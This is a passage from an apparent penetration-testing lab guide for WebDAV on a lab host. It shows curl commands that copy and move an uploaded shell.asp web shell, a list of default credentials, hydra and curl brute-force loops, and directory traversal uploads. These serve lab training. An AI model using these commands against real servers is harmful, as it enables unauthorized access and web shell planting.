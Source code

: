 #### File Manipulation
```bash
# Copy file to new location
curl -X COPY --user bob:password_123321 \
  -H "Destination: http://demo.ine.local/webdav/backup.asp" \
  http://demo.ine.local/webdav/shell.asp

# Move file (rename)
curl -X MOVE --user bob:password_123321 \
  -H "Destination: http://demo.ine.local/webdav/hidden.txt" \
  http://demo.ine.local/webdav/shell.asp
```

---

## 🚨 Advanced Attack Vectors

### 1. Credential Attacks

#### Default Credentials Testing
```bash
# Common WebDAV default credentials
admin:admin
admin:password
webdav:webdav
test:test
guest:guest
anonymous:anonymous
```

#### Brute Force Attack
```bash
# Using hydra for WebDAV brute force
hydra -L users.txt -P passwords.txt \
  demo.ine.local http-get /webdav/

# Manual testing with curl
for password in admin password 123456; do
  curl --user admin:$password \
    http://demo.ine.local/webdav/ 2>/dev/null \
    && echo "Success: admin:$password"
done
```

### 2. Directory Traversal Exploitation

#### Path Manipulation Attempts
```bash
# Attempt to upload outside WebDAV directory
curl -X PUT --data-binary @shell.asp \
  --user bob:password_123321 \
  http://demo.ine.local/webdav/../shell.asp

# Try to access system directories
curl -X PROPFIND --user bob:password_123321 \
  http://demo.ine.local/webdav/../../../
```
